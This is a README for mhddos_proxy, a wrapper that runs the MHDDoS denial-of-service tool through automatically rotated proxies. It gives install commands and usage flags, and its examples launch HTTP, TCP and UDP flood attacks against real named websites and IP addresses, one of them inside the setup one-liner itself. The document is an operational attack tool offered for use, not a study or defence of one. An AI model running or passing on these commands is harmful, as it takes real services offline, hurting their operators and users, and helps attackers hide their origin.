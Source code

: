 ## Intro

Wrapper script for running [MHDDoS](https://github.com/MHProDev/MHDDoS)

- **No VPN required** - automatically downloads and selects working proxies for given targets
- Support for **multiple targets** with automatic load-balancing
- Uses multiple attack methods and switches between them
- Simpler interface with named arguments

## Setup

### Python

```bash
git clone https://github.com/botsarefuture/mhddos_proxy.git && cd mhddos_proxy && git clone https://github.com/MHProDev/MHDDoS.git && python3 -m pip install -r MHDDoS/requirements.txt --b && python3 runner.py https://sinimustaliike.fi
```
```

### Docker

Install and run Docker

- Windows: https://docs.docker.com/desktop/windows/install/
- Mac: https://docs.docker.com/desktop/mac/install/
- Ubuntu: https://docs.docker.com/engine/install/ubuntu/

```bash
docker pull portholeascend/mhddos_proxy:latest
```

## Running

### Docker

```bash
docker run -it --rm portholeascend/mhddos_proxy:latest COMMAND
```

### Python

```bash
python3 runner.py COMMAND
```

## Usage

```bash
usage: runner.py target [target ...]
                 [-t THREADS] 
                 [-p PERIOD]
                 [--proxy-timeout TIMEOUT]
                 [--rpc RPC] 
                 [--udp-threads UDP_THREADS]
                 [--debug]
                 [--http-methods METHOD [METHOD ...]]

positional arguments:
  targets                List of targets, separated by space

optional arguments:
  -h, --help             show this help message and exit
  -t, --threads 1000     Total number of threads (default is 100 * CPU Cores)
  -p, --period 300       How often to update the proxies (default is 300)
  --proxy-timeout 2      How many seconds to wait for the proxy to make a connection.
                         Higher values give more proxies, but with lower speed/quality.
                         Parsing also takes more time (default is 2)

  --debug                Enable debug output from MHDDoS
  --rpc 50               How many requests to send on a single proxy connection (default is 50)
  --udp-threads 1        Threads to run per UDP target (default is 1)

  --http-methods GET     List of HTTP(s) attack methods to use.
                         (default is GET, STRESS, BOT, DOWNLOADER)
                         Refer to MHDDoS docs for available options
                         (https://github.com/MHProDev/MHDDoS)
```

# Examples

For HTTP(S) targets, attack method is randomly selected from `--http-methods` option (see above for the default).

For TCP targets, attack method is TCP FLOOD

For UDP targets, attack method is UDP FLOOD.   

**VPN IS REQUIRED FOR UDP**, proxying is not supported.  
Separate parameter `--udp-threads` controls the load, the default is 1, **INCREASE SLOWLY**, be careful

```bash
python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

docker run -it --rm portholeascend/mhddos_proxy https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53
```

Target specification

- HTTP(S) by URL - `https://tvzvezda.ru` or `http://tvzvezda.ru`
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT - `tcp://194.54.14.131:4477`
- UDP by IP:PORT - `udp://217.175.155.100:53` - **REQUIRES VPN**

Increase load

```bash
python3 runner.py -t 1000 https://tvzvezda.ru
```

View DEBUG info (traffic)

```bash
python3 runner.py https://tvzvezda.ru --debug
```

Change proxy update interval

```bash
python3 runner.py -p 600 https://tvzvezda.ru
```

Get more proxies (possibly lower quality)

```bash
python3 runner.py --proxy-timeout 5 https://tvzvezda.ru
```

Specific HTTP(S) attack method(s)

```bash
python3 runner.py https://tvzvezda.ru --http-methods CFB CFBUAM
```
